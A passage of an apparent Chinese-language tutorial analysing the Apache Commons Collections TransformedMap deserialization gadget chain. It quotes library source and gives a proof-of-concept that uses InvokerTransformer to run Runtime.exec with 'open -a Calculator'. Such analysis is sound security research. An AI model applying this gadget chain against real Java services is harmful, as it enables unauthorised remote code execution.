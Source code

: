 发现keyTransformer和valueTransformer都是由构造方法直接赋值的，我们再看看有哪些方法调用了TransformedMap的构造方法（毕竟protected方法用起来不太方便，只能同个包或者子类调用），发现TransformedMap存在一个public的静态方法调用了TransformedMap的构造方法

```java
public static Map decorate(Map map, Transformer keyTransformer, Transformer valueTransformer) {
  return new TransformedMap(map, keyTransformer, valueTransformer);
}
```

所以目前我们形成了如下的调用链：

```java
TransformedMap.decorate() --> TransformedMap.TransformedMap() --> TransformedMap.put() --> TransformedMap.transformKey() --> InvokerTransformer.transform()
```

利用代码如下：

```java
Runtime r = Runtime.getRuntime();
InvokerTransformer invokerTransformer = new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"open -a Calculator"});
HashMap<Object, Object> invokerTransformerHashMap = new HashMap<>();
Map<Object, Object> transformedmap = TransformedMap.decorate(invokerTransformerHashMap, invokerTransformer, null);
transformedmap.put(r,null);
```

## Map.Entry调用

TransformedMap类中另一处执行了transform方法的实现为：

```java
protected Object checkSetValue(Object value) {
        return this.valueTransformer.transform(value);
    }
```

很显然，从上面的分析得知，通过`TransformedMap.decorate() --> TransformedMap.TransformedMap() `可以控制valueTransformer，只要我们再能控制传参给checkSetValue的参数为r，便也能实现命令执行。

查看哪里调用了checkSetValue方法，发现仅在TransformedMap的父类AbstractInputCheckedMapDecorator类中的一个静态内部类中调用了checkSetValue方法。

```java
static class MapEntry extends AbstractMapEntryDecorator {

  /** The parent map */
  private final AbstractInputCheckedMapDecorator parent;

  protected MapEntry(Map.Entry entry, AbstractInputCheckedMapDecorator parent) {
    super(entry);
    this.parent = parent;
  }

  public Object setValue(Object value) {
    value = parent.checkSetValue(value);
    return entry.setValue(value);
  }
}
```
